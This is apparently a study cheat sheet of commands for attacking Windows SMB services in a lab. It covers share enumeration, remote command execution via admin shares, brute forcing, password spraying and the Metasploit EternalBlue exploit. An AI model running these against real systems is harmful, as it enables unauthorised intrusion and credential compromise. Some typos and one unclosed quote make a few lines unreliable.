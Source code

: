 ```shell
  \\DC01\\SharedFiles
  smbmap -H <ip>
  smbclient //<ip>/SharedFiles -U "<username_or_domain_name/username>%<password>"

  Get-Service WinRM
  winrm enumerate winrm/config/listener
  Test-WsMan <ip>

  # 21 (FTP)
  
  # 22 (SSH)

  # 1433 (MSSQL)

  # 3389 (RDP)
```

---

### Attacks on SMB (https://www.youtube.com/watch?v=Ab0zGI7k1QY&list=PLJnLaWkc9xRi71Pso26JlvyBkLUOETLjn&index=4)

smbmap,smbclient,netexec

domain_name could be hexdump.lab

```shell
  # 01. Guest or Anonmous access to Shares / Listing of shares
  nxc smb <ip> -u "<username_that_doesnt_exist_or_guest>" -p "" --shares # Guest access
  nxc smb <ip> -u '' -p '' --users
  
  smbmap -H <ip>
  smbmap -H <ip> -u <username> -p "<password>"
  smbmap -H <ip> -u <username> -p "<password>" -d <domain_name> -r "<share_name>"
  smbmap -H <ip> -u <username> -p --prompt
  smbmap -H <ip> -u <username> -p "<password>" -v
  smbmap -H <ip> -u <username> -p "<password>" --signing

  smbclient -L //<ip> -U "<username>"
  smbclient //<ip>/<share_name> -U "<username_or_domain_name/username>%<password>"

  ls,cd,get,put

  # 02. RCE via access to adinistrative Shares
  smbmap -H <ip> -u <username> -p "<password>" -x "<command> # -X Powerhshell -x cmd

  # 03. SMB Brute Forving
  docker run --entrypoint "/bin/bash" -v $(pwd)/wordlists:/data --network host -it evilsocket/legba:latest
  legba smb --smb-workgroup <domain_name> --smb-share <share_name> --username <username> --password ./wordlists/passwords.txt --target <ip>
  legba smb --smb-workgroup <domain_name> --smb-share <share_name> --username administrator --password ./wordlists/passwords.txt --target <ip>

  # 04. SMB Password Spraying
  nxc smb <ip> -u "<username>" -p <password_file>
  nxc smb <ip> -u <username_list> -p <password_file>
  nxc smb <ip_list> -u <username_list> -p <password_file> --continue-on-success

  # 05. SMBv1 EternalBlue (CVE-2017-0144)
  nmap -p445 --script smb-vuln-ms17-010 <ip>
  metasploit -q
  use auxiliary/scanner/smb/smb_ms17_010
  use exploit/windows/smb/smb_ms17_010_eternalblue
```